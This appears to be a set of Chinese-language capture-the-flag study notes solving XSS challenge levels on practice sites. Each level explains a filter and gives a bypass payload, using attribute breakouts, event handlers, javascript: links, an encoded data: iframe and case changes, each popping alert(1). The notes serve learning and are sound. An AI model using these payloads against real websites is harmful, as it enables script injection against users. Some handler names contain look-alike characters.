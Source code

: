 ## 前置知识

XSS 目标：尽可能找到一切**用户输入**并且能够**输出在页面代码**中的地方。

## 实战

### level1 [XSS 挑战之旅](http://test.xss.tv/) 

最简单的xss漏洞 

xss 绕过尖括号和双引号转义

```bash
<script>alert(1)</script>
```

### level2  [XSS 挑战之旅](http://test.xss.tv/) 

在<h2>标签中，‘<>’符号被转译，但在<input>标签中‘value’的值完整显示了输入的payload，尝试闭合value的值，在输入框重新构造xss注入代码

```bash
"><script>alert(1);</script>
```

### level3 [XSS 挑战之旅](http://test.xss.tv/) 

在<h2>和<input>标签中，‘<>’符号均被转译 , 尝试闭合‘value’的值，通过事件触发弹窗，在输入框构造新的payload： 

```bash
' οnmοuseοver='alert(1)
或
'autofocus onfocus=alert(1) x='
```

level4 [XSS 挑战之旅](http://test.xss.tv/) 

在<h2>标签中，‘<">’被编码，<input>标签里‘value’中的’<>'被替换为空白，尝试闭合‘value’的值，通过事件触发弹窗，在输入框构造新的payload：

```bash
" οnmοuseοver="alert(1)
```

level5 [XSS 挑战之旅](http://test.xss.tv/) 

<input>标签里 script 和 on 关键字都被过滤

只有在尖括号里面的 script 才会被过滤，on 在任何时刻都会被过滤。

h2标签中 双引号和尖括号都被过滤了，单引号没有。

因此使用 javascript 关键字触发 alert 

```bash
"><a href=javascript:alert(1)>点我点我</a>

# 还可使用 url 编码的方式绕过字节流
"><iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>"<
```

level6

情况和上一题差不多，但是这次script on src data 关键字都被过滤了，使用大写就可以。

考察关键字的绕过方法。 src 大写即可绕过关键字过滤。

考察 html 语法的特点：**HTML 大小写**不敏感，不**区分大小写**，也就是说**大小写**都不影响。 但根据W3C的规范写法，一般使用小写。

```bash
"><img SRC=javascript:alert(1) ><"
```

### todo

http://test.ctf8.com/level7.php?keyword=move up!

### 第三题 https://xss-game.appspot.com/level3

用户输入内容直接被放置到 image标签中。且使用的是单引号

```bash
'><script>alert(1)</script>
```

## 参考链接

- [XSS跨站漏洞详解](https://zhuanlan.zhihu.com/p/43877060)
- [xss ctf wiki](https://ctf-wiki.github.io/ctf-wiki/web/xss-zh/)
- [记一次xss漏洞挖掘](https://zhuanlan.zhihu.com/p/77639006)
- [XSS过滤绕过速查表](https://www.freebuf.com/articles/web/153055.html) 
- [XSS平台 XSS挑战之旅 解题记录 writeup](https://blog.csdn.net/weixin_44037296/article/details/98342199)


